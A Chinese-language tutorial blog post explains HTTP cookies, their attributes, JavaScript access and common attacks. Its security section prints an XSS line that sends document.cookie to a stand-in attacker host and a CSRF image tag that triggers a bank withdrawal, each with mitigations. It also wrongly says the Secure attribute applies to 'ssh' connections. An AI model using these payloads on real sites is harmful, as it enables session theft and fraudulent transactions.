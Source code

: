 ## 1、cookie是什么

cookie是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带，并发送回服务器。

因为http协议本身是无状态的，所以cookie的存在是为了记录状态信息。

cookie的作用主要有三个方面：

- 会话状态管理（用户登录、购物车等）
- 个性化设置（用户自定义设置、主题等）
- 浏览器行为跟踪（跟踪分析用户行为）

## 2、如何使用cookie

当服务器收到http请求时，可以在响应头中添加<code>Set-Cookie</code>选项。

浏览器收到响应后会保存下cookie，之后对该服务器的每一次请求都通过<code>Cookie</code>请求头将cookie信息发送给服务器

例如：
```http
//响应头
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: userId=123cfei23jd

//以后每次请求头
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: userId=123cfei23jd
```

### 2.1 cookie属性项

属性项 | 说明
---|---
name=value | 要保存的内容，格式为键值对
Expires | 过期时间，格式为时间戳
Max-Age | 有效期，和Expires功能相似
Domain | 主机，详情见注1
Path | 路径，详情见注2
Secure | 如果设置了这个属性，只会在ssh连接时会回传
HttpOnly | 如果设置了这个属性，将无法通过js脚步读取cookie
SameSite | Cookie 允许服务器要求某个 cookie 在跨站请求时不会被发送

注：
1. <code>domain</code>指定了哪些主机可以接受 Cookie。如果不指定，默认为 origin，不包含子域名。如果指定了Domain，则一般包含子域名
2. <code>path</code>指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。

> SameSite 可以有下面三种值：
> - None。浏览器会在同站请求、跨站请求下继续发送cookies，不区分大小写
> - Strict。浏览器只在相同访问站点发送cookie
> - Lax。与Strict类似，但用户从外部站点导航至URL（如通过link链接）时除外

> 以前SameSite属性没有设置时默认为none，现在大多数浏览器正在将默认值迁移至Lax

cookie设置例子如下：
```http
Set-Cookie: id=a3fWa; Path=/; Expires=Wed, 21 Oct 2021 07:28:00 GMT; Domain=mozilla.org; SameSite=Strict; Secure; HttpOnly
```

### 2.2 Js操作cookie

js通过Document.cookie访问cookie，但js创建的cookie不能包含HttpOnly标志，简单示例如下：

```js
// 1 设置cookie
document.cookie = "name=test";
document.cookie = "age=12";
console.log(document.cookie) 
//name=test; age=12;

// 2 获取指定名称的cookie
let name = document.cookie.replace(/(?:(?:^|.*;\s*)name\s*\=\s*([^;]*).*$)|^.*$/, "$1");
console.log(name)
//test
```

更多示例可以参考mdn对cookie增删改查的一个例子：https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie#%E4%B8%80%E4%B8%AA%E5%B0%8F%E6%A1%86%E6%9E%B6%EF%BC%9A%E4%B8%80%E4%B8%AA%E5%AE%8C%E6%95%B4%E6%94%AF%E6%8C%81unicode%E7%9A%84cookie%E8%AF%BB%E5%8F%96%E5%86%99%E5%85%A5%E5%99%A8

## 3、cookie的安全问题

众所周知cookie存在不少安全性问题，下面一一说明

### 3.1 会话劫持和XSS（跨站脚步攻击）

在web应用中，cookie常用来标识用户，如果cookie被窃取，就可能导致用户受到攻击

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

设置<code>HttpOnly</code>可以在一定程度上缓解此类攻击

当然更稳妥的办法还是对所有用户输入都做过滤或者危险字符转义

### 3.2 CSRF（跨站请求伪造）

比如在不安全的论坛上的一张图片，实际可能是这样：

```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果你正好登录了银行账号并且cookie有效，而银行又没有任何其他验证，那么你的钱就有可能被自动转走。

设置<code>SameSite</code>为Strict可以一定程度的避免跨站请求，并且可以缩短cookie周期，增加敏感信息的验证

当然SameSite不能完全解决问题，并且不是所有浏览器兼容，可以采用token等身份验证方式，本篇主讲cookie，不再展开

### 3.3 中间人攻击或者从用户本地获取

cookie终究是存储在用户本地的数据，当用户机器处于不安全的环境，cookie是没办法做什么的

所以不要用cookie存储、传输敏感信息，一般存放脱敏或者加密过的信息

--- 

事实上cookie还有其他的安全性问题，并且没有提到隐私相关问题，还有很多可以深入的内容没有谈到，但总之，cookie入门篇就介绍到这里